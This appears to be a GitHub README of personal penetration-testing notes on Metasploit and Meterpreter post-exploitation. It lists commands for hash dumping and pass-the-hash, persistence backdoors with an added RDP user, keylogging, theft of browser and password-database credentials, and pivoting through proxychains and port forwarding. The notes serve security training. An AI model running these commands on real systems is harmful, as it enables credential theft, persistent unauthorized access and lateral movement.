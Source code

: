 # pen-leviathan
pentesting notes

## Priv Escalation
- If we grab hashes for a system, we can use `mimikatz` to grab them from memory. This needs to be done in a 64 bit process so that meterpreter can load the module without problem.
- Run `sysinfo` and check Meterpreter value. (x86/win32 aint gonna cut it)
- To find a process to migrate to, run `ps -A x86_64 -s` when you are a `system`. This will display available compatible processes to migrate to.

## Grab hashes
- `run post/windows/gather/smart_hashdump`
- Now you can run `creds` or `loot` in the msf console to see the data as well.
- use `exploit/windows/smb/psexec`
- set usersname and then the password hash

 ## Backdoor Installation
 - For windows systems, once you have a meterpreter session, `run persistence`
 - `run getgui -e -u atk_user -p atk_password`
 - RDP Service is now started and user 'atk_user' with password 'atk_password' can now rdp into the machine.

## Pillaging
Commands inside of meterpreter for pillaging data
- sysinfo
-- if server, for example, we would know to search and see what type of services are running (in shell this would be `wmic service where started=true get catption`
- getuid

Meterpreter has a good set of gather utilities under:
- run post/windows/gather OR
- run post/linux/gather
These can also be used outsie of the meterpreter session. You just need to use the `use` command, configure its options with `set` and then execute the module with `run`

### Windows
- run post/windows/gather/enum_domains

If the machine is part of a domain, we can enumerate accounts and other information in the default active domain
- run post/windows/gather/enum_ad_users
- In a shell, run `net localgroup` to list groups and `net localgroup [GROUPNAME]` to list members of a specific group
To figure out what resources are shared:
- run enum_shares (same as `net share` in a shell)

The two main scripts to use against windows hosts are:
- scraper - harvests system info including network shares, registry hives, and password hashes
- winenum - retrieves all kinds of info about the system including env vars, networking interfaces, routing, user accounts, and much more
- Both of the above are invoked using `run winenum` or `run scraper`. Files are saved locally.

Keyloggers:
These only record the keys of the process the session has been migrated to. So if you want info when a user logs into their computer, you need to be migrated to the `winlogon.exe` process.
- `run keylogrecorder` <- there is a `-c` option that allows you to automate the migration into the correct process.
- `run post/windows/capture/keylog_recorder`

Searching for files:
- From a meterpreter session: `search -d C:\\Users\\els\\ -f *.kdbx` <- password database file extension

Downloading files:
- use the download command.

Gather Credentials:
- `run post/windows/gather/credentials/`
- In the parent directory, there are useful scripts as well. For example the `enum_chrome` script can be used to gather credentials stored in Google Chrome

List Applications:
- `run post/windows/gather/enum_applications`

Other:
- `run post/windows/gather/credentials/credential_collector`

### Linux
https://n0where.net/linux-post-exploitation


## Mapping the Internal Network

### Meterpreter Commands
Basics:
- route
- arp (good way to find new ip addresses in the network)
- netstat (will show all the host network connections as well as the processes assocatied with them)
- arp_scanner
- ping_sweep (run outside of meterpreter, but has an option where it is set to a specific session number)
- netenum (research more)

Pivoting:
Add a new route to the network to allow for a single host to scan their own internal network.

- `route add 10.10.10.0/24 255.255.255.0 2` -> 2 is the session we want to route things through.
- `run autoroute -s 10.10.10.0/24`
- `route flush`

Sometimes metasploit modules are not enough and you may want to run tools like nmap or nessus on these new hosts. To do this we will once again use the current session on the exploited machine, to pivot external tools via the meterpreter session and its route. In order to do this we will have to set up a socks4 proxy within metasploit and then use tools like proxychains to route the traffic through this proxy.

#### Setup Proxy
- `use auxiliary/server/socks4a`
- configure a port to listen on
- Execute: `run`
- Can check for listening port via `netstat -tulpn | grep [PORT_NUM]`

Now that the proxy is set up, we need to configure tools like `proxychains` in order to use the address and port set in metasploit. Proxychains is a tool that forces any tcp connection made by any given application, to follow through proxy like SOCKS4 SOCKS5 TOR and so on.

#### Configure proxychains
- Open up the proxychain configuration at: /etc/proxychain.conf
- Change the last line to the following `socks4 127.0.0.1 [PORT_NUM]`
- The above statement is telling proxychains to use SOCKS4 as the proxy on our local address on [PORT_NUM]

We are instructing proxychains to use the proxy set within metasploit and its route. The process is now: `tools -> proxychains -> metasploit socks4a proxy -> meterpreter routes -> meterpreter session -> target network`

#### Use tools and utilize the new proxy
Use a scanning tool like nmap targeting the target internal network
- `proxychains nmap -sT -Pn -n 10.10.10.5 --top-ports 50`
- By adding `proxychains` before the nmap command, we will force nmap to run through it.

You can also route other things through proxychains as well. For example:
- `proxychains ssh 10.10.10.XX`
- `proxychains telnet 10.10.10.XX`

You can also setup port forwarding:
- Inside of meterpreter, the following command will open a listener on our local ip address on port 3333 and will forward the connection to the ip address 10.10.10.5 on port 3389
- `portfwd add -l 3333 -p 3389 -r 10.10.10.5`
- To check that is worked, run `portfwd` to list the forwards.

Now we can use the forwarding rules to get a remote desktop session via a call like `rdesktop 127.0.0.1:3333`
